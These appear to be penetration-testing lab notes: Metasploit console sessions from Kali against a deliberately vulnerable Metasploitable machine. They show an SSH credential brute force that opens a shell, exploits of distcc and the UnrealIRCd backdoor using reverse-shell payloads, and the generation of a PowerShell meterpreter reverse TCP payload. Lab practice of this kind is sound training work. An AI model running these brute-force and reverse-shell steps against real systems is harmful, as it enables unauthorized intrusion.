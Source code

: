 ## SSH : bruteforce attack

msfconsole
```
search ssh
msf6 exploit(multi/samba/usermap_script) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > show options
msf6 auxiliary(scanner/ssh/ssh_login) > set  PASS_FILE /home/kali/dev/exploits_files/passwords.txt
PASS_FILE => /home/kali/dev/exploits_files/passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /home/kali/dev/exploits_files/usernames.txt
USER_FILE => /home/kali/dev/exploits_files/usernames.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type         Information  Connection
  --  ----  ----         -----------  ----------
  2         shell linux  SSH kali @   <kali ip>:34681 -> <metasploitable ip>:22  (<metasploitable ip>)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[-] Invalid session identifier: 1
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 2
```

## Exploits challenge
tools : nmap, msfconsole, google

21/tcp   open  ftp         vsftpd 2.3.4
```
msf6 auxiliary(scanner/ftp/anonymous) > search ftp scan
msf6 auxiliary(scanner/ftp/anonymous) > use auxiliary/scanner/ftp/ftp_version
msf6 auxiliary(scanner/ftp/anonymous) > search distc

msf6 auxiliary(scanner/ftp/anonymous) > use exploit/unix/misc/distcc_exec
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf6 auxiliary(scanner/ftp/ftp_version) > search UnrealIRCd

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor

msf6 auxiliary(scanner/ftp/ftp_version) > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS <metasploitable ip>
RHOSTS => <metasploitable ip>
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse
payload => cmd/unix/reverse

```


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate